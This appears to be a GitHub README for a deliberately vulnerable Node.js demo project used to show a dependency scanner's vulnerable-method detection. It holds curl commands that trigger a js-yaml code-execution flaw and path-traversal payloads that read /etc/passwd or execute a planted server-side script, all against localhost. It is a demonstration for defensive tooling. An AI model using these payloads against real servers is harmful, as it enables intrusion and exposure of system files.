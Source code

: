 # [:] Example node project with vulnerable methods

A node project to demonstrate srcclr agent's vulnerable methods feature for JavaScript

## Vulnerability 1 (SID-13642) Exploit

```
git clone https://github.com/srcclr/example-javascript-vulnerable-methods.git
cd example-javascript-vulnerable-methods
npm install
node index.js

```
The vulnerable method is called twice during the server startup, however another one needs to be trigged by issuing a
request to the endpoint by running the following command in another terminal to trigger the code execution vulnerability 
in `js-yaml:load`

```
curl --path-as-is 'http://127.0.0.1:8001/api/'
```

## Vulnerability 2 (SID-20301) Exploit

Use the following to trigger the directory traversal vulnerability (SID-20301)in `algo-httpserv:serve` 

```
curl --path-as-is 'http://127.0.0.1/8001/../../../../../../etc/passwd'
```


## Vulnerability 3 (SID-21402) Exploit

```
git clone https://github.com/srcclr/example-javascript-vulnerable-methods.git
cd example-javascript-vulnerable-methods
npm install
node larvitbase-api.js

```

and then run the following command in another terminal

```
curl --path-as-is 'http://127.0.0.1:8001/../../../../hacked'
```
You can see the JavaScript file`hacked.js` is executed in the server side.

## Scan with SRCCLR Agent

```
brew tap srcclr/srcclr
brew install srcclr
srcclr activate
srcclr scan --url https://github.com/srcclr/example-javascript-vulnerable-methods
```

somechange
